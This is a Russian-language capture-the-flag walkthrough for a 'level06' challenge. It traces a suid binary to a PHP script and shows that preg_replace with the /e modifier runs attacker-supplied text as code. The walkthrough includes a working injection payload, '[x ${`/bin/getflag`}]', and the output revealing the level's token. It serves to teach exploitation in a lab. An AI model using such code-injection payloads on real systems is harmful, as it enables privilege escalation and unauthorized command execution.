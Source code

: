 ```
ls -l
```
> total 12\
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06\
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

так как на level06 есть suid, значить выполнять необходимо будет его

```
strace ./level06 2>&1 | grep execve
```
> execve("./level06", ["./level06"], [/* 20 vars */]) = 0\
execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 20 vars */]) = 0

Понятно, что этот бинарник выполняет скрипт, который лежит рядом

Тестируя понимаем, что первым аргументом level06 принимает файл, который будет распаршен
```
./level06
```
> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

```
./level06 123
```
> PHP Warning:  file_get_contents(123): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

```
cat level06.php
```
> #!/usr/bin/php\
<?php\
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }\
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }\
$r = x($argv[1], $argv[2]); print $r;\
?> 


В скрипте есть строка

<pre>
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)\
								 ^
								 |
Это означает, что далее найденный паттерн выполниться в php коде, в нашем случае в функции y()
</pre>

<pre>
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
preg_replace — Выполняет поиск и замену по регулярному выражению
Выполняет поиск совпадений в строке subject с шаблоном pattern и заменяет их на replacement.
</pre>

Главное, чтобы то что пришло в subject удовлетворяло регулярке и выполнилось в коде

дальнейшее выполнение нас не интересует, главное, чтобы php выполнил getflag для этого создаем файл, который будем ему подавать

```
echo  '[x ${`/bin/getflag`}]' > /tmp/php
```

```
./level06 /tmp/php
```
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub\
 in /home/user/level06/level06.php(4) : regexp code on line 1

